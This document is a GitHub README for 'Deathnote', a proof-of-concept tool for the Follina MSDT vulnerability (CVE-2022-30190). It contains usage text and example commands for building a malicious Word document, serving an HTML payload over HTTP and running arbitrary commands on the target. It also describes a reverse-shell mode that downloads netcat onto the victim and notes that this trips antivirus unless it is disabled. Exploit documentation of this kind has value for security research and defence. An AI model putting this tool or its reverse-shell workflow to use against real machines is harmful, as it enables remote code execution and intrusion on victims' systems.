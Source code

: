# Deathnote
<p align="center">
 
<img src="https://media3.giphy.com/media/xT1XH3NIegS0FBc1K8/giphy.gif">

 </p>
 
### Proof of Concept of CVE-2022-30190

 `A remote code execution vulnerability exists when MSDT is called using the URL protocol from a calling application such as Word. An attacker who successfully exploits this vulnerability can run arbitrary code with the privileges of the calling application. The attacker can then install programs, view, change, or delete data, or create new accounts in the context allowed by the user’s rights.`

--------------

Create a "Deathnote" MS-MSDT attack with a malicious Microsoft Word document and stage a payload with an HTTP server.

# Usage

```
usage: follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]

options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: Notepad)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./Deathnote.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```

# Examples

Pop `notepad.exe`:

```
$ python3 Deathnote.py   
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./Deathnote.doc
[+] serving html payload on :8000
```

Pop `calc.exe`:

```
$ python3 Deathnote.py -c "calc"
```

![demo](https://user-images.githubusercontent.com/86009160/194345014-808a8bbe-44ed-4c74-9a28-cc9933cdd3f7.gif)


### Get a reverse shell on port 4444. **Note, this downloads a netcat binary _onto the victim_ and places it in `C:\Windows\Tasks`. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.**
 
 Get `reverse shell` :
 
 ```
 python3 Deathnote.py -p 1234
 ```
